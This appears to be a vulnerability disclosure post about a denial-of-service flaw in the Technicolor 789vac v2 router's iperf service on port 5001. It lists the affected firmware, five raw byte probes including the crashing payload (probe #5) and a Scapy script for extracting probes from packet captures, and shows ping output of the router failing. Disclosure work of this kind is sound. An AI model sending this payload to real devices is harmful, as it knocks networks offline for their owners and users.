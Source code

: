 ```yaml
---
layout: post
title: "Router Technicolor 789vac v2" 
date: 2025-01-15
comments: "-"
categories: vulnerability
---
```



## Affected products

We have not yet tested Technicolor models other than those listed. However we suspect it may also work on other models with similar firmware version higher than 2.0.0.

```
    Technicolor 789vac v2 - firmware AGTOT_2.0.0
    Technicolor 789vac v2 - firmware AGTOT_2.0.1
    Technicolor 789vac v2 - firmware AGTOT_2.2.3
```



## Overview

An issue was discovered in the Technicolor 789vac router running firmware AGTOT_2.2.3. An unauthenticated remote attacker can send a crafted probe or perform a service detection scan, targeting the iperf service on port 5001. This triggers an immediate failure in the router’s network stack, causing disruption of all network connectivity (wired and wireless) and resulting in a full router reboot.

**This PoC can result in a DoS.**

**Given the vendor's policies, we wont't show the Source Code of the binary scripts. However, we'll inspect the web page source. We'll provide the insights before and after the procedure.**

## Strategy

We tested the improper behaviours. 
Simultaneously, we captured the network traffic log all packets exchanged. 
We saved the captured data in PCAPNG format for further analysis. 
Collect all the probes analyzing pcapng (e.g. Scapy)
We filtered precisely the crashing cause by sending one by one and then crafted the exploit.

Here's the list of the probes collected: 
```
Probe #1 BOF: b'\x41' * 10000
Probe #2 Unexpected input from another protocol: b'GET / HTTP/1.1\r\nHost: 192.168.1.1\r\n\r\n'
Probe #3: b'\r\n\r\n'
Probe #4 Enumeration: b'\x69\x70\x65\x72\x66\x20\x2d\x76\x00'
Probe #5 unexpected binary sequence: b'\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01'
```

Probe scraping: 
```
from scapy.all import rdpcap


file_path = 'crash.pcapng'  # Replace with your file path
packets = rdpcap(file_path)

target_ip = "ip_addr" 
target_port = 5001

probes = []
for packet in packets:
    if packet.haslayer("TCP") and packet["TCP"].dport == target_port and packet["IP"].dst == target_ip:
        payload = bytes(packet["TCP"].payload)
        if payload and payload not in probes: 
            probes.append(payload)

for i, probe in enumerate(probes, start=1):
    print(f"Probe #{i}: {probe}")
```

The probe #5 is the chosen one that leads Techicolor 789vac failure. 

```
64 bytes from 192.168.1.1: icmp_seq=183 ttl=64 time=0.401 ms
64 bytes from 192.168.1.1: icmp_seq=184 ttl=64 time=0.348 ms
64 bytes from 192.168.1.1: icmp_seq=185 ttl=64 time=0.384 ms
64 bytes from 192.168.1.1: icmp_seq=186 ttl=64 time=0.373 ms
64 bytes from 192.168.1.1: icmp_seq=187 ttl=64 time=0.335 ms
64 bytes from 192.168.1.1: icmp_seq=188 ttl=64 time=0.349 ms
64 bytes from 192.168.1.1: icmp_seq=189 ttl=64 time=4.66 ms
64 bytes from 192.168.1.1: icmp_seq=190 ttl=64 time=0.518 ms
64 bytes from 192.168.1.1: icmp_seq=191 ttl=64 time=0.385 ms
64 bytes from 192.168.1.1: icmp_seq=192 ttl=64 time=0.418 ms



From 192.168.1.2 icmp_seq=247 Destination Host Unreachable
From 192.168.1.2 icmp_seq=248 Destination Host Unreachable
From 192.168.1.2 icmp_seq=249 Destination Host Unreachable
```
Before the failure (icmp_seq=183 to icmp_seq=188) the latency can be considered low (~0.3-0.4 ms)
During the moment of disruption (icmp_seq=189) there's a sudden spike in response time, which indicates the system is struggling to process the incoming data.
After failure (icmp_seq=190 to icmp_seq=192), the router resumes responding briefly until the total failure (icmp_seq=247 and beyond), becoming unreachable.

Moreover, this will result in an unintended system reboot. The time required for the system to reboot is unpredictable, ranging from a few seconds up to 10 minutes after the actor has exploited the system.
 
